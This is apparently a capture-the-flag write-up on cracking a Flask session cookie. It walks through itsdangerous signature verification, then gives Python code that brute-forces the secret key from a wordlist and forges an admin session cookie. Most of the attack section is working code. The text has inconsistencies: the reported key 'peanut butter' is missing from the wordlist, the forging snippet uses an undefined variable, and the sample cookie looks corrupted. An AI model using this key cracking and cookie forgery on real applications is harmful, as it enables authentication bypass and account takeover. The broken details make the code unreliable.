## Payload

So for crack the cookie, we need to simulate all the process, then reverse it. Firstly, add all file in module “itsdangerous” to our exploit directory

##### JWT: abc.cde.efg

sessions.py -> open_session() -> loads() -> return “abc” -> signer.unsign() -> verifying sign, timestamp -> return payload: “abc”, timestamp: “cde” -> super().unsign(JWT) -> verifying signature -> derive key from secret key -> verifying (key, abc.cde, efg) return abc.cde -> compare hmac of sig and get_signature(key, abc.cde) 


* So, we just need to call the function loads(), the entire sequence is automatically processing

### Extract secretkey

```python
from .timed import TimestampSigner
from .url_safe import URLSafeTimedSerializer
from flask.json.tag import TaggedJSONSerializer
from hashlib import sha1
from .exc import BadSignature

secret_keys = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap"]
cookie = 'eyJ2ZXJ5X2F1dGgiOiJiGFuayJ9.ZuFMUQ.TSo7e1UwHHmAvToyoC6c7sGelTg'

for secret in secret_keys:
    try:
        serializer = URLSafeTimedSerializer(
            secret_key=secret,
            salt="cookie-session",
            serializer=TaggedJSONSerializer(),
            signer=TimestampSigner,
            signer_kwargs={
                'key_derivation': 'hmac',
                'digest_method': sha1
            }
        ).loads(cookie)
    except BadSignature:
        continue

    print('Secret key: {}'.format(secret))
```

This declare a new serializer by URLSafeTimedSerializer class, if cryptography part going true, print the secret to screen.
* Secret key: “peanut butter"

```python
session = {'very_auth': 'admin'}
print(URLSafeTimedSerializer(
    secret_key=shhh,
    salt='cookie-session',
    serializer=TaggedJSONSerializer(),
    signer=TimestampSigner,
    signer_kwargs={
        'key_derivation': 'hmac',
        'digest_method': sha1
    }
).dumps(session))

# serializer.loads(signed_value)
# Purpose: This method is used to verify and deserialize the signed session cookie.

# serializer.dumps(cookie_value)
```